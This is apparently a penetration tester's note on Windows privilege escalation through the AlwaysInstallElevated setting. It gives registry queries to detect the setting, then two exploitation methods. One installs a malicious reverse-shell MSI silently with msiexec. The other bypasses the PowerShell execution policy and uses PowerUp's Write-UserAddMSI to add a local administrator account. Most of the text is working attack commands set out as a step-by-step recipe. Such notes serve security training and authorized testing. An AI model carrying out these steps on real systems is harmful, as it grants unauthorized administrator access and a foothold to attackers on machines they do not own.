 ```yaml
---
category: Uncategorized
tags: []
---
```

#### 1st Method

**Detection**

Open command prompt and type: 

```command prompt - windows
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

From the output, notice that “AlwaysInstallElevated” value is 1.  

In command prompt type: 

```command prompt - windows
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
```

From the output, notice that “AlwaysInstallElevated” value is 1.

Extra step: Run the following to look for any conditions.
```powershell - target
get-applockerpolicy -effective | select -expandproperty rulecollections
```

In this example, the malicious msi file would need to go in the `C:\Administrator` path.

![[Pasted image 20220927101417.png]]

**Exploitation**

[[1._Reverse Shells (WIN)#msi]]

Place ‘reverse.msi’ in `C:\Temp`.  

Open command prompt and type: 

```command prompt - windows
msiexec /quiet /qn /i C:\<PUT_THE_ENTIRE_PATH>\reverse.msi
```

#### 2nd Method
```command prompt - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

![[Pasted image 20220207104341.png]]

```powershell - windows
Write-UserAddMSI
```

Now you will see a UserAdd file in the same directory as the PowerUp file.

![[Pasted image 20220207104500.png]]

Open the UserAdd file.

Fill in details, click create.

```command prompt - windows
net localgroup administrators
```

See our new user is now listed there.

